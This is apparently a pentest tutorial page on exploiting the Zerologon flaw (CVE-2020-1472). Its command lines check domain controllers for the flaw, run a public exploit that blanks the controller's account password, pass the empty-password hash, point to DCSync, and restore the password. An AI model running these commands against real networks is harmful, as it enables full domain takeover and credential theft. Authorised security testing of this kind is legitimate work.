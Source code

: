 # 🕷️ Zerologon [CVE-2020-1472]
---

> [!CAUTION]
> Following exploit **changes the password** of a domain controller's account, which **breaks communications with other domain controllers** (DCSync) until you will restore the original password.

#### 🤓 RTFM

Everything is explained [here](https://www.secura.com/blog/zero-logon).

Long story short, this exploit consists in sending authentication requests to the domain controller as itself - *i.e. `DC_NAME$`* - with an empty password until it accepts one of them. Once you are authenticated, the exploit sets the password of the domain controller account as empty.

#### 📝 Prerequisites

- Network route to the domain controller.

#### 🛠️ Do it!

First, check if a domain controller is vulnerable to ZeroLogon.

# [NetExec](#tab/netexec)

[NetExec](https://github.com/Pennyw0rth/NetExec) is a cross platform network execution tool, the successor of [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec).

```bash
# You don't need to be authenticated on the domain.
nxc smb $DomainControllerIP -M zerologon
```

# [SecuraBV](#tab/securabv)

You can also use [SecuraBV GitHub repository](https://github.com/SecuraBV/CVE-2020-1472).

```bash
python3 zerologon_tester.py $DomainControllerHostname $DomainControllerIP
```

---

If the domain controller appears to be vulnerable, you can attempt the exploit with this [dirkjanm's GitHub repository](https://github.com/dirkjanm/CVE-2020-1472).

```bash
python3 cve-202-1472-exploit.py $DomainControllerHostname $DomainControllerIP
```

This will set the **domain controller's account password as empty**. So you are now able to do [Pass the Hash](/docs/active-directory/lateralization/pass-the-hash.html) with the following one `:31d6cfe0d16ae931b73c59d7e0c089c0` which corresponds to an empty password, or by using `-no-pass`-ish argument.

#### 🏆 What's next?

The best option at this point is to perform [DCSync](/docs/active-directory/privilege-escalation/dc-sync.html) attack.

> [!IMPORTANT]
> **Don't forget to restore the password afterwards!**
>
> As explained in [dirkjanm's GitHub repository](https://github.com/dirkjanm/CVE-2020-1472), if you have a recent version of [impacket-secretsdump](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py), you should be able extract the `hex_plain_text` version of the domain controller's previous password. If not, you can still retrieve it by [dumping LSASS cached credentials](/docs/windows/privilege-escalation/credentials-extraction.html).
>
> ```bash
> # Don't put the trailing `$` at the end of domain controller hostname.
> python3 restorepassword.py $Domain/$DomainControllerHostname@$DomainControllerHostname -target-ip $DomainControllerIP -hexpass $HexPlainText
> ```
> 
> To be sure, check the password is not empty anymore. Following command should fail.
> 
> ```bash
> nxc smb $DomainControllerIP -u "$DomainControllerHostname\$" -H '31d6cfe0d16ae931b73c59d7e0c089c0'
> ```